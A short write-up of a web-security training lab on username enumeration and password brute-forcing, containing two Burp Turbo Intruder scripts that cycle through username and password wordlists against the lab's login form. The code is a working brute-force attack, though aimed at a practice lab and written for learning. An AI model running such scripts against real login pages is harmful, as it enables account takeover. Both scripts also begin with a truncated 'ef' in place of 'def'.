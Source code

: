     - For example, a website might only check whether the password is correct if the username is valid. This extra step might cause a slight increase in the response time. 
    - This may be subtle, but an attacker can make this delay more obvious by entering an excessively long password that the website takes noticeably longer to handle.

# Lab: Username enumeration via different responses
- This lab is vulnerable to username enumeration and password brute-force attacks. 
- It has an account with a predictable username and password, which can be found in the following wordlists:
- Candidate usernames
- Candidate passwords
- To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

# My Solution
- I sent the log in request to burp turbo intruder and I Highlighted the username and used the following code
```
ef queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/home/kali/authenticationlabusernames'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
- After I got the Username when the error message said invalid password, I sent the request to repeater and I highlighted the password and sent it to burp turbo intruder once again using the same code but now with a password list
```
ef queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/home/kali/authenticationlabuserpassword'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
- I got a 302 redirect on a password, I logged in with the username and password and the lab was solved
